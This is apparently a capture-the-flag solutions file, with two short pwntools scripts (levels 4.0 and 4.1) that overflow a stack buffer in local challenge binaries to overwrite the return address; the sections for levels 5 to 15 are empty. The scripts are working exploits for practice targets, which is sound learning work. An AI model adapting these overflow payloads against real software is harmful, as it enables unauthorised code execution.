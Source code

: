 ## 4
### .0
```py
from pwn import *
context(os='linux',arch='amd64')
elfpath=os.path.join('/challenge',os.listdir('/challenge')[0])
io=process(elfpath)

io.sendline('-1')

pl=b'b'*120+p64(0x40229d)

io.send(pl)
print(io.recvall().decode())

```
### .1
```py

from pwn import *
context(os='linux',arch='amd64')
elfpath=os.path.join('/challenge',os.listdir('/challenge')[0])
# elfpath=os.path.join('/home/hacker/challenge',os.listdir('/challenge')[0])
io=process(elfpath)
io.sendline('-1')

pl=b'b'*(0x30+8)+p64(0x4020d3)

io.send(pl)
print(io.recvall().decode())

```
## 5
### .0
```py

```
### .1
```py

```
## 6
### .0
```py

```
### .1
```py

```
## 7
### .0
```py

```
### .1
```py

```
## 8
### .0
```py

```
### .1
```py

```
## 9
### .0
```py

```
### .1
```py

```
## 10
### .0
```py

```
### .1
```py

```
## 11
### .0
```py

```
### .1
```py

```
## 12
### .0
```py

```
### .1
```py

```
## 13
### .0
```py

```
### .1
```py

```
## 14
### .0
```py

```
### .1
```py

```
## 15
### .0
```py

```
### .1
```py

```
